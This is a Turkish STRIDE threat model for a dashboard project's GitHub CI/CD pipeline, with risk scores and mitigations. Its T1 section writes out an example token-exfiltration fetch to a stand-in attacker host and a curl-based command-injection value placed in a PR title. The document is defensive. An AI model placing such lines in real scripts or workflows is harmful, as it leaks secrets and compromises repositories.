

# Tehdit Modeli (STRIDE)

## Veri akış diyagramı (DFD)

## Risk puanlama

Olasılık (O) ve Etki (E) 1–5 arası; **Risk = O × E**. 15+ yüksek, 8–14 orta, 1–7 düşük.

## Tehditler

| # | STRIDE | Tehdit | O | E | Risk | Önlem | Kalan risk |
| --- | --- | --- | --- | --- | --- | --- | --- |
| **T1** | **Information disclosure / Elevation** | **Kötü niyetli PR ile CI/CD hattının ele geçirilip gizli token'ın çalınması** (kartın öncelikli tehdidi) | 4 | 5 | **20** | Ayrıntısı aşağıda | O2×E2 = **4** |
| T2 | Tampering | Üçüncü taraf bir Action'ın etiketi (ör. `@v4`) saldırgan tarafından yeni koda taşınır (tj-actions/changed-files 2025 olayı) | 3 | 5 | 15 | Tüm Actions 40 karakterlik commit SHA ile sabit; Dependabot SHA'ları PR ile günceller; CI'da politika kontrolü | 1×5 = 5 |
| T3 | Tampering | Bir geliştirici veya ele geçirilmiş hesap main'e doğrudan zararlı kod push eder | 2 | 5 | 10 | Branch protection: doğrudan push kapalı, PR + CODEOWNERS onayı, CI yeşil olmadan merge yok, force push kapalı | 1×5 = 5 |
| T4 | Tampering | `data` dalına sahte veri yazılır; panoda yanlış "en hızlı büyüyen" listesi görünür | 2 | 3 | 6 | data dalına yalnızca snapshot job yazar; istemci JSON şemasını doğrular ve tüm metni `textContent` ile basar (XSS yok) | 2×2 = 4 |
| T5 | Spoofing | Saldırgan sitenin kopyasını açar veya iframe'e gömerek kullanıcıyı kandırır (clickjacking) | 2 | 2 | 4 | `frame-ancestors 'none'`, `X-Frame-Options: DENY`, HSTS preload | 1×2 = 2 |
| T6 | Information disclosure | XSS ile kullanıcının tarayıcısında kod çalıştırılması (depo açıklamasına zararlı HTML konması) | 3 | 3 | 9 | CSP `script-src 'self'`, inline script yok; DOM'a yalnızca `textContent` ile yazılır; CodeQL SAST | 1×3 = 3 |
| T7 | Denial of service | GitHub API çöker veya hız sınırı dolar; pano boş açılır | 4 | 3 | 12 | Snapshot hata alırsa son başarılı veri korunur ve `status: error` yazılır; istemci önce canlı veri, sonra tarayıcı önbelleği, sonra siteyle gelen kopyayı dener; açık uyarı bandı | 4×1 = 4 |
| T8 | Repudiation | Kim hangi değişikliği yaptı bilinmez (özellikle bot commit'leri) | 2 | 2 | 4 | Tüm değişiklikler PR üzerinden; bot commit'leri `radar-bot` adıyla ve workflow çalıştırma kaydıyla izlenebilir | 1×2 = 2 |
| T9 | Elevation of privilege | Bağımlılıkta (Chart.js, Vite) zafiyet veya kötü niyetli paket sürümü | 2 | 4 | 8 | Sürümler `package.json`'da sabit, `package-lock.json` commit'li, `npm ci --ignore-scripts`, npm audit, Dependabot, dependency review | 1×4 = 4 |
| T10 | Information disclosure | Yerel `.env` dosyası yanlışlıkla commit edilir | 3 | 4 | 12 | `.gitignore`, GitHub push protection, CI'da gitleaks; token salt okunur ve 90 günlük | 1×2 = 2 |

## T1 ayrıntılı: kötü niyetli PR ile token hırsızlığı

**Saldırı senaryosu:** Saldırgan depoyu fork'lar, `scripts/snapshot.mjs` dosyasına `fetch('https://saldirgan.example/?t=' + process.env.GH_TOKEN)` satırını ekleyip PR açar. Workflow PR kodunu sırlara erişimle çalıştırırsa token saldırganın sunucusuna gider. İkinci varyant: PR başlığına veya dal adına `"; curl ... $GITHUB_TOKEN #` gibi bir ifade koyup workflow'daki `${{ github.event.pull_request.title }}` gibi satır içi ifadelerden komut enjekte etmek.

**Saldırı ağacı ve önlemler:**

| Saldırı adımı | Önlem | Kanıt |
| --- | --- | --- |
| Fork PR'ının kodu sırlarla çalışır | `pull_request_target` hiçbir workflow'da yok; `pull_request` ile fork PR'ları sırlara erişemez. Sır kullanan tek workflow (`snapshot`) yalnızca `schedule` ve `workflow_dispatch` ile tetiklenir, PR ile tetiklenmez. | `scripts/check-workflows.mjs` CI'da kontrol eder |
| Zararlı kod main'e girip zamanlanmış job'da çalışır | Branch protection: PR + CODEOWNERS onayı zorunlu, doğrudan push kapalı | Settings → Branches ekran görüntüsü |
| Token'ı dışarı sızdırma (exfiltration) | harden-runner `egress-policy: block`: snapshot job yalnızca `api.github.com` ve `github.com`'a bağlanabilir; başka her bağlantı engellenir ve raporlanır | StepSecurity raporu |
| Token ile depoya yazma | `permissions: {}` varsayılan; yalnızca snapshot job'unda `contents: write`. Veri token'ı (`GH_DATA_TOKEN`) salt okunur. `persist-credentials: false` ile token `.git/config`'e yazılmaz, yalnızca push adımının `env`'inde | workflow dosyaları |
| Etiketi değiştirilmiş üçüncü taraf Action | Tüm `uses:` 40 karakter SHA | CI politika kontrolü, Scorecard "Pinned-Dependencies" |
| Satır içi `${{ }}` ifadesiyle komut enjeksiyonu | Kullanıcı kontrollü değerler `run:` içine doğrudan yazılmaz, `env:` üzerinden geçer; sır kullanan workflow'un hiçbir kullanıcı girdisi yok | CodeQL `actions` analizi |

**Kalan risk:** GitHub'ın kendi altyapısının ele geçirilmesi veya depo sahibinin hesabının çalınması. Hesapta 2FA açık olmalı (öneri: passkey).

## Doğrulama: OpenSSF Scorecard

Kartın doğrulama testi, sertleştirme öncesi ve sonrası Scorecard puanlarını karşılaştırmaktır. Ölçüm yöntemi ve tablo `docs/SCORECARD.md` dosyasındadır.
